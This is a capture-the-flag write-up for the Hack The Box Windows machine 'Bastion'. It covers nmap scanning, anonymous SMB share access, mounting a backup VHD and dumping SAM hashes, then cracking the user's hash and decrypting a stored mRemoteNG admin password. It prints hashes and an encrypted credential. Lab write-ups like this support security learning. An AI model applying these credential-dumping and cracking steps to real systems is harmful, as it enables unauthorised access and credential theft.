 <img src="Machines/Bastion/Images/1.PNG">
##Intro 
Target: 10.10.10.134

It's a easy box and I will be using kali linux for solving this.
##Steps
####1. Info Gathering
First, Run a nmap scan to see open ports and services.
```
root@kali:~/CTF# nmap -sC -sV 10.10.10.134
```
And here are the results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-08 08:56 EDT
Nmap scan report for 10.10.10.134
Host is up (0.29s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m21s, deviation: 1h09m15s, median: 37s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-08T14:57:33+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-08T12:57:34
|_  start_date: 2019-09-08T11:52:23

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.28 seconds
```
From the open ports, It can be known that the box is a windows machine and we can see its servies. So lets jump right into the fun part. 

####2. Exploitation
There seem to nothing special.Let's try smb service for the port 445. For mb service exploitation in kali, we use smbmap, smbclient, enum4linux, etc.

Lets try smbclient:
```
smbclient -L 10.10.10.134
```
<img src="Machines/Bastion/Images/2.PNG">

With this tool we can see smb shares of this box without any password. Try accessing some shares by 
```smbclient -L //10.10.10.134/**insert sharename here**```. In this case, you can acces **Backups** :
```
root@kali:~/CTF# smbclient //10.10.10.134/Backups

```
<img src="Machines/Bastion/Images/3.PNG">

Voila! We got a shell now.So lets see what we have in here. Now lets see what twe got in there.

4
Content of note.txt:
```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```
Now let's mount that backup folder.

```
mount -t cifs //10.10.10.134/Backups -o user=guest,password= mnt/backups
````
And we will see around what it has

```
root@kali:~/CTF/bastion/mnt/Backups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351# ls
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
BackupSpecs.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
```
Now lets mount the VHD. VHD - Virtual Hard Drive 
```
guestmount --add /mnt/backups/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
```
Now lets see whats around there

```
root@kali:CTF/bastion/mnt/vhd# ls -la           
total 2096745
drwxrwxrwx 1 root root      12288 Feb 22  2019  .
drwxr-xr-x 4 root root       4096 Sep  6 15:25  ..
drwxrwxrwx 1 root root          0 Feb 22  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 11  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 11  2009  config.sys
lrwxrwxrwx 2 root root         14 Jul 14  2009 'Documents and Settings' -> /mnt/vhd/Users
-rwxrwxrwx 1 root root 2147016704 Feb 22  2019  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 14  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 12  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22  2019  Recovery
drwxrwxrwx 1 root root       4096 Feb 22  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22  2019  Users
drwxrwxrwx 1 root root      16384 Feb 22  2019  Windows
```
As I could not find user.txt. So we do this now:
```
root@kali:~CTF/bastion/mnt/vhd# samdump2 ./SYSTEM ./SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Now lets Drop that sweet hash ```26112010952d963c8dc4217daec986d9``` in hashcat or you can use some online tools to identify and decrypt the hash. I recommend using hashes.org.And we get the password for the user L4mpje-PC,Now lets login as that particular user in ssh.

<img src="Machines/Bastion/Images/5.PNG">

#### 3. Getting user flag
Fire up the terminal and using ssh login as L4mpje. So the sweet terminal is working and it's a childs play to get the hash so yeah.

<img src="Machines/Bastion/Images/6.PNG">

<img src="Machines/Bastion/Images/7.PNG">

Now let's proceed to privillege escalation **My favourite part**

#### 4. Privillege Escalation
After screwing around and raging, I found a intresting program installed by that particular user on appdata 'mRemoteNG'.So, after checking that out I found a confCons.xml and looked whats in it and voila I found the Administrator creds!! Lets drop that hash in a tool that some one has put it out for us. <a href="https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py"> mremoteng-decrypt </a>

<img src="Machines/Bastion/Images/8.PNG">

<img src="Machines/Bastion/Images/9.PNG">

<img src="Machines/Bastion/Images/10.PNG">

```
java -jar decipher_mremoteng.jar "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" 
```
Now we go the admin creds, Lets login and get the flag.  

<img src="Machines/Bastion/Images/11.PNG">

<img src="Machines/Bastion/Images/12.PNG">

See its # **Easy peasy**

